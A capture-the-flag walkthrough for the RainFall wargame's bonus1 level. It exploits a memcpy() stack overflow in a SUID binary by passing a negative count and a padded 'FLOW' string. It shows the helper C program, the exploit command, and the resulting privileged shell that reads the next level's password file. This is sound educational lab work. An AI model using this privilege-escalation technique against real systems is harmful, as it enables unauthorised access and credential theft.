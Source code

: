 # Level bonus 1

## Vulnerability

memcpy() buffer overflow

## Context

We find a binary with owner ```bonus2``` and SUID.
```
bonus1@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```
When run with no arguments it segfaults. with any number of random arguments it does nothing.
```
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 hi
bonus1@RainFall:~$
```

## Solution

Investigating with gdb we find only ```main()```, no other functions. ```main()``` calls ```memcpy()``` which is vulnerable to buffer overflow.

First ```main()``` reads the first argument ```n = atoi(argv[1])```, and exits the program if ```n``` not less than 10. So any number less than 10, easy!

Next ```memcpy()``` copies ```n``` * 4 bytes from ```argv[2]``` to a buffer on the stack with the potential to overflow ```n```.

Finally, if now ```n``` == 0x574f4c46 ("FLOW" in ascii) a shell is opened.

So we want to use ```memcpy()``` to overflow ```n``` with 0x574f4c46. The problem is ```n``` <= 9, ```memcpy()``` copies ```n``` * 4 bytes, 9 * 4 = 36. Not long enough to reach and overwrite ```n```, 44 bytes minimum. The solution is to use a negative number which when multiplied by 4 is more than 44 (n * 4 => 44).

### Find n (first argument)

We can write a simple c program ```find_n.c``` to find an ```n``` which works for us.
```
/*
	find_n.c
*/
#include <stdio.h>
#include <limits.h>

int	main(void)
{
	int	n;

	n = INT_MIN;
	while (n < 0)
	{
		if (n * 4 >= 44)
		{
			printf("n = %d, n * 4 = %d\n", n, n * 4);
			break ;
		}
		n++;
	}
	return (0);
}
```
Compiled and run with ```gcc find_n.c -o find_n; ./find_n``` it outputs:
```
n = -2147483637, n * 4 = 44
```

### Build overflow string

So our first arg ```n``` is ```-2147483637```

And our secong arg:
1. 40 bytes padding to reach the address of ```n``` - ```$(python -c 'print "A" * 40'```
2. target value ```n``` to open shell, 0x574f4c46 = "FLOW" in ascii - ```"FLOW"```
```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "A" * 40 + "FLOW"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
